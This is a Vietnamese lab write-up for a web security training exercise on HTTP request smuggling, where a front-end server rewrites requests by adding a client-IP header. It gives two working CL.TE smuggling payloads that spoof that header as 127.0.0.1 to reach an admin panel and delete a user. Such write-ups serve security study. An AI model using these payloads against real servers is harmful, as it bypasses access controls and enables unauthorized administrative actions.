

# Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting

## Detect

Gửi một request bình thường rồi quan sát response, sẽ thấy header như `X-ogNCrq-Ip` được thêm vào để phản ánh IP client. Đây là dấu hiệu front-end đang rewrite request trước khi chuyển xuống back-end.



## Vì sao có thể khai thác

Front-end không chỉ forward request mà còn tự thêm header định danh client. Nếu smuggle được request thứ hai, có thể lợi dụng chính cơ chế rewrite này để giả lập request đến từ `127.0.0.1`.

## Exploit

Payload smuggle để truy cập `/admin`:

```http
POST / HTTP/1.1
Host: 0a4100f10454098883e79614001f0096.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-ogNCrq-Ip: 127.0.0.1
Content-Length: 14

x=
```

Khi payload đúng, request smuggled trả về trang `/admin`.

Để xóa `carlos`, chỉ đổi path:

```http
POST / HTTP/1.1
Host: 0a4100f10454098883e79614001f0096.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
Transfer-Encoding: chunked

0

POST /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-ogNCrq-Ip: 127.0.0.1
Content-Length: 14

x=
```

Mấu chốt của bài này là header do front-end chèn thêm có thể được tái sử dụng trong request smuggled để bypass kiểm tra IP.
